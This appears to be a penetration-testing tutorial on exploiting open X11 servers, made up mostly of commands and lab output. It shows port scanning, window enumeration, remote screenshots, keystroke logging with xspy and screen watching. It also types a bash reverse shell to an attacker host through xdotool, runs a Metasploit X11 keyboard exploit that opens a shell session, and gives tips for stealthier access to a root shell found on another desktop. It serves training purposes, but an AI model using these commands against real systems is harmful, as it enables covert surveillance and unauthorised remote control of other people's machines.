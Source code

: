# X11 Hacking

https://zachgrace.com/training/X11.html

## Attacker Setup

Install some required packages:
```
apt-get install x11-utils xutils-dev imagemagick libxext-dev xspy
```
## Installing xwatchwin
```
wget http://www.ibiblio.org/pub/X11/contrib/utilities/xwatchwin.tar.gz
tar zxvf xwatchwin.tar.gz
cd xwatchwin/
xmkmf && make && make install
```
## Reconnaissance

X11 generally runs on ports 6000-60063, however it’s most typically found on ports 6000-6002. We can use Nmap to scan for and identify X11.
```
root@pwnlab-kali-mini:~# nmap -sV -n -v -p 6000-6002 172.16.31.102

Starting Nmap 6.47 ( http://nmap.org ) at 2016-02-02 22:29 EST
NSE: Loaded 29 scripts for scanning.
Initiating ARP Ping Scan at 22:29
Scanning 172.16.31.102 [1 port]
Completed ARP Ping Scan at 22:29, 0.00s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:29
Scanning 172.16.31.102 [3 ports]
Discovered open port 6000/tcp on 172.16.31.102
Completed SYN Stealth Scan at 22:29, 0.00s elapsed (3 total ports)
Initiating Service scan at 22:29
Scanning 1 service on 172.16.31.102
Completed Service scan at 22:29, 6.01s elapsed (1 service on 1 host)
NSE: Script scanning 172.16.31.102.
Nmap scan report for 172.16.31.102
Host is up (0.00044s latency).
PORT     STATE  SERVICE VERSION
6000/tcp open   X11     X.Org (open)
6001/tcp closed X11:1
6002/tcp closed X11:2
MAC Address: 08:00:27:1A:F3:00 (Cadmus Computer Systems)
Service Info: OS: Unix

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.21 seconds
           Raw packets sent: 4 (160B) | Rcvd: 4 (152B)
```
## Gathering Window Info
Before we start exploiting the system, it’s useful to gather some information about the windows. The xwininfo command
```t
root@pwnlab-kali-mini:~# xwininfo -root -tree -display 172.16.31.102:0

xwininfo: Window id: 0x101 (the root window) (has no name)

  Root window id: 0x101 (the root window) (has no name)
  Parent window id: 0x0 (none)
     40 children:
     0x30002a7 "update-manager": ()  10x10+-100+-100  +-100+-100
     0x3000003 (has no name): ("update-manager" "Update-manager")  254x98+0+0  +0+0
        1 child:
        0x3000004 (has no name): ()  1x1+-1+-1  +-1+-1
     0x3000001 "update-manager": ("update-manager" "Update-manager")  10x10+10+10  +10+10
        1 child:
        0x3000002 (has no name): ()  1x1+-1+-1  +9+9
     0x2e00003 "update-notifier": ()  10x10+-100+-100  +-100+-100
     0x2e00001 "update-notifier": ("update-notifier" "Update-notifier")  10x10+10+10  +10+10
        1 child:
        0x2e00002 (has no name): ()  1x1+-1+-1  +9+9
     0x2c00001 "applet.py": ("applet.py" "Applet.py")  10x10+10+10  +10+10
        1 child:
        0x2c00002 (has no name): ()  1x1+-1+-1  +9+9
     0x1c00001 (has no name): ()  10x10+-20+-20  +-20+-20
     0xe00001 "Terminal": ("gnome-terminal" "Gnome-terminal")  10x10+10+10  +10+10
        1 child:
        0xe00002 (has no name): ()  1x1+-1+-1  +9+9
     0x1200068 (has no name): ()  10x10+0+0  +0+0
```
## Screenshot The Display

The xwd tool can be used to create a screenshot of the remote desktop.

```
xwd -root -screen -silent -display 10.10.10.10:0 > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Exploitation

### Keystroke logging

Keystroke logging can be accomplished using the xspy tool.

```
root@pwnlab-kali-mini:~# xspy
opened 172.16.31.102:0 for snoopng
test
```

### Watching The Display

To watch the display, you can use xwatchwin to watch a specific window or the entire desktop using the root window identifier.

```
./xwatchwin -u 0.5 172.16.31.102:0 root
```

### Getting Shell

#### Method 1: xdotool

```
xdotool key alt+F2
xdotool type 'xterm'
xdotool key KP_Enter
xdotool type --delay 50 'bash -i >& /dev/tcp/192.168.59.10/4444 0>&1'
xdotool key KP_Enter
```

On the attacker machine, catch the reverse shell:
```
nc -lnvp 4444

listening on [any] 4444 ...
connect to [192.168.59.10] from (UNKNOWN) [192.168.59.3] 52876
vagrant@pwnlab-x11:~$
```
#### Method 2: Metasploit
A recent Metasploit module was released and has simplified this attack by registering a virtual keyboard, then typing in the specified payload.
```
016-02-03 07:07:30 - S:0 J:0  > use exploit/unix/x11/x11_keyboard_exec
2016-02-03 07:07:32 - S:0 J:0  exploit(x11_keyboard_exec) > show options

Module options (exploit/unix/x11/x11_keyboard_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOST      172.16.31.102    yes       The target address
   RPORT      6000             yes       The target port
   TIME_WAIT  5                yes       Time to wait for opening GUI windows in seconds


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.59.10    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   xterm (Generic)


2016-02-03 07:07:36 - S:0 J:0  exploit(x11_keyboard_exec) > set LHoST 192.168.59.10
LHoST => 192.168.59.10
2016-02-03 07:07:52 - S:0 J:0  exploit(x11_keyboard_exec) > exploit

[*] Started reverse TCP handler on 192.168.59.10:4444
[*] 172.16.31.102:6000 - Register keyboard
[*] 172.16.31.102:6000 - Opening "Run Application"
[*] 172.16.31.102:6000 - Waiting 5 seconds...
[*] 172.16.31.102:6000 - Opening xterm
[*] 172.16.31.102:6000 - Waiting 5 seconds...
[*] 172.16.31.102:6000 - Typing and executing payload
[*] Command shell session 1 opened (192.168.59.10:4444 -> 192.168.59.3:61742) at 2016-02-03 07:09:20 -0600

id
uid=1000(vagrant) gid=1000(vagrant) groups=4(adm),20(dialout),24(cdrom),46(plugdev),108(lpadmin),109(sambashare),110(admin),1000(vagrant)
```
### Don’t Forget About Desktops!

Most Linux window managers have multiple desktops. I’ve come across an open X11 server on an engagement with nothing on the first desktop, but a root shell on a different one. Using the xdotool, you can change which desktop you’re viewing and manipulating. Be warned, This desktop switch would be visible to anyone else viewing the desktop.

```
export DISPLAY=172.16.31.102:0
xdotool get_desktop
0
xdotool set_desktop 1
```

A stealither way of exploiting this root shell would be to comb through the xwininfo output, and using the window option of xdotool to send commands directly to the window.

## References

https://barcodereader.wordpress.com/2009/02/19/how-to-secertly-watch-in-x/
http://x8x.net/2014/09/16/x11-pentesting-techniques/
http://pipefish.me/2012/08/28/spying-on-screens-and-keystrokes-the-dangers-of-open-x11/
http://colesec.inventedtheinternet.com/more-x11-hacking-with-xspy-and-xwatchwin/

tags: Linux Links Pentest
